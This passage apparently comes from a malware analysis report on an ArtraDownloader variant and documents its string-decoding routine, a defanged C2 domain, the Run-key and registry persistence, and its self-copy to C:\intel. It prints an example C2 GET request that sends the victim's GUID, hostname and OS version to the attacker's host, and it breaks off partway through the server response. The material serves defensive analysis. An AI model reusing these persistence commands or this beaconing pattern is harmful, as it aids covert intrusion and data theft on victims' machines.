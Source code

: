 
Compile Timestamp
2019-01-07 07:13:47 UTC


PDB String
c:\Users\Asterix\Documents\Visual Studio 2008\Projects\28NovDwn\Release\28NovDwn.pdb



Table 3 ArtraDownloader Variant 2 Sample
Upon execution, the sample will create and register a new window class with the following properties:
Window Name: 28NovDwn
Class Name: MY28NOVDWN
The malware proceeds to decode a series of strings using a simple routine. The following Python script may be used to decode strings belonging to this cluster:
def decode(data):
out = ""
for d in data:
out += chr((ord(d)-3)&0xFF)
return out
>> print(decode(“iudphzrunvxssruw1qhw”))
>> frameworksupport[.]net
It proceeds to attempt to create the C:\intel\ directory, which is where various files will eventually be stored. It creates the following registry if it doesn’t already exist with the intent of persisting on the victim machine:
HKCU\Environment\AppId – c:\intel\msdtcv.exe
ArtraDownloader then sets the following registry key to ensure that the malware executes across reboots.
HKCU\Software\Microsoft\Windows\CurrentVersion\Run – cmd /c start %AppId% && exit
Additionally, in a separate thread, the malware will spawn a new process to copy itself to the C:\intel\msdtcv.exe path.
Various information about the victim machine is collected, including information about the operating system, the machine’s GUID, as well as the hostname. This information will ultimately be used to both identify the victim and provide general information about the infected host.
The following example GET request is made to the remote C2 server:
GET /ourtyaz/qwe.php?TIe=214cf8g5.cgc9.51gb.914d.f17ceg%3ae4cc7*XJO.82GO2QF2BU9*%3aACme%3b%217%2f2%2f8712%21Tfswjdf%21Qbdl%212 HTTP/1.1
Host: frameworksupport[.]net
Connection: close
In the example request above, the data supplied in the TIe GET variable is separated by a * and the remaining data is encoded by adding one to each byte. Decoding this string, we are presented with the following:
103be7f4-bfb8-40fa-803c-e06bdf9d3bb6*WIN-71FN1PE1AT8*9@Bld: 6.1.7601 Service Pack 1
The data above includes the machine’s GUID, the victim’s hostname, as well as information about the operating system. This particular GET request is looking for the AXE: identifier, as witnessed in the following C2 response:
HTTP/1.1 200 OK
X-Powered-By: PHP/5.6.36
Content-Type: text/html; charset=UTF-8
Content-Length: 23
Date: Tue, 20 Nov 2018 22:27:56 GMT
Accept-Ranges: bytes
Server: LiteSpeed
Connection: close
 